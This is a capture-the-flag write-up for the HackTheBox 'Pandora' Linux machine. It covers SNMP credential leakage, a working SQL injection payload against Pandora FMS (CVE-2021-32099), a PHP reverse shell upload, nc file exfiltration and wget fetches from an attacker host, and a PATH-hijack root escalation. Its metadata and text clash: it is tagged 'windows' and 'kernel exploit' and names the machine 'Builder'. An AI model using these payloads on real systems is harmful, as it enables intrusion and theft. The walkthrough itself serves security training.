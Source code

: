 ```yaml
---
categories:
- CTF
layout: post
image:
  path: preview.png
media_subpath: /assets/posts/2025-06-25-pandora-hackthebox
tags:
- hackthebox
- windows
- kernel exploit
- exposed version
- CVE
title: Pandora @ HackTheBox
---
```


Pandorais a easy-difficulty [hackthebox.eu](https://www.hackthebox.eu) machine. Initial access is gained through enumerating a exposed UDP port of 161, running snmpbulkwalk on the exposed port reveals a username and password which allows for SSH access. The user flag is obtained by enumerating the Apache2 folder and finding a hidden domain, port-forwarding this domain to your local machine and using a CVE gains you access to the administrator panel. Uploading a malicious extension gains access to the 'Matt' account. To gain root, running linpeas exposes a hidden backup file. Transfering this file to your local machine and running strings on the executeable exposes a path injection vulnerability. But due to some-weird apache-ness, you will need to upload your own SSH public key in order to exploit this properly.

## User & Root Flag
This post is a walkthrough for Builder, an Medium machine on [hackthebox.eu](https://www.hackthebox.eu). 

The initial scan (`nmap -Pn -n -sC -sV -p- 10.129.190.120`) shows the following results:
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

However, port 80 has nothing of use. (use -v because this scan takes ages)
The UDP port scan (though time-consuming) reveals port 161.
```
sudo nmap -sU 10.129.190.120 -v
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-23 02:04 BST
Initiating Ping Scan at 02:04
Scanning 10.129.190.120 [4 ports]
Completed Ping Scan at 02:04, 0.05s elapsed (1 total hosts)
Initiating UDP Scan at 02:04
Scanning Panda.htb (10.129.190.120) [1000 ports]
Discovered open port 161/udp on 10.129.190.120
```

## Daniel - user 1
because snmp outputs tons of information, download this to reduce the excess junk.
```
sudo apt install snmp-mibs-downloader
sudo nano /etc/snmp/snmp.conf
//comment mibs out
```
use snmpbulkwalk to enumerate port 161.
```
snmpbulkwalk -c public -v2c 10.129.190.120 . > snmpcheck
```

Once finished, we can use grep to see how many times a parameter has been issued.
```
grep -oP '::.*?\.' snmpcheck | sort | uniq -c | sort -n 
```
The main ones we care about are:
- hrSWRunParameters
- hrSWInstalled

Grepping out the file and searching for `hrSWRunParameters` eventually reveals a username and password.
```
cat snmpcheck | grep hrSWRunParameters
OST-RESOURCES-MIB::hrSWRunParameters.963 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p <REDACTED>'"

// you can also check to see what was happening by filtering out the task number (not required)
grep hrSWRun snmpcheck | grep 963 
```

Use these credentials on daniel's SSH service.
```
ssh daniel@10.129.190.120
```
Enumerating the Apache2 sites-available exposes a hidden domain under localhost.
```
daniel@pandora:/etc/apache2/sites-enabled$ cat ../sites-available/pandora.conf
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```

To access this, we have to first port-forward port 80 to our local machine.
```
ssh daniel@10.129.190.120 -L 8000:127.0.0.1:80
// explaination
First we take our port which is 8000 (this is the port we will visit)
127.0.0.1 is the local host on the victims machine where the service is running from
port 80 is the port we want to forward.
```
Once forwarded, visit `http://localhost:8000`
Doing some research on pandorafms reveals an unauthenticated SQL injection attack which gains administrator access.<br>
`https://github.com/akr3ch/CVE-2021-32099`<br>

Copying and executing this gains administrator access.
```
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a' UNION SELECT 'a',1,'id_usuario|s:5:"admin";' as data FROM tsessions_php WHERE '1'='1
```
![admin](admin.png)

## Matt - user 2
Once admin access has been established, there are different ways you can get internal access, either by using another CVE (authenticated) or by uploading your own php reverse shell.<br>
To upload your own php reverse shell follow these steps:
```
1 - Make a PHP reverse shell (pentest monkey works fine)
2 - Zip it (important)
3 - Visit http://localhost:8000/pandora_console/index.php
4 - go to Admin Tools → Extension Manager → Extension Uploader
5 - Upload your zipped reverse shell.
6 - set up netcat listener (nc -lvnp 1234)
6 - Trigger shell by visiting http://localhost:8000/pandora_console/extensions/rev.php
```

If everything goes well, you now have access to matt's account.
As matts shell is not stable, lets upgrade it.
```
< INSIDE MATTS SHELL >
[Shell] python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl-z
stty raw -echo; fg
[Shell] export TERM=xterm
```

Once you have upgraded matts shell, grab his user flag.

## Root
upload linpeas to the machine and run it
```
[you] python3 -m http.server 80
[victim] wget http://your_ip:80/linpeas.sh
[victim] chmod +x linpeas.sh
[victim] .\linpeas.sh
```
Eventually you find that netcat is installed and a hidden backup folder exists at `/usr/bin/pandora_backup`<br>
Because you can't use strings on the machine, we have to transfer it off.
Theres different ways you can do this i.e. wget etc, but I'm using nc for simplicity.
```
[VICTIM]nc your_ip 9002 < /usr/bin/pandora_backup
[YOU]nc -lvnp 9002 > pandora_backup
```

Run strings on the downloaded file and you'll spot a command
```
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```
Because this uses a relative path and not an absoulte path i.e. (/usr/bin/tar), it's vulnerable to a PATH injection attack.
But before we can do that, we have to upload our own SSH public key due to apache.
```
[YOU] ssh-keygen -f matt
[victim] mkdir .ssh
[victim] wget your_ip:80/matt.pub
[victim] mv matt.pub authorized_keys
[YOU] ssh -i matt matt@10.129.190.120

// if this doesnt work
[victim] chmod 700 ~/.ssh
[victim] chmod 600 ~/.ssh/authorized_keys
```

Export your path and run the command to gain root.
```
matt@pandora:~$ which tar
/usr/bin/tar
matt@pandora:~$ echo /bin/bash > tar
chmod +x tar

// path hijack
export PATH=/home/matt:$PATH
matt@pandora:~$ which tar
/home/matt/tar

matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~# 
```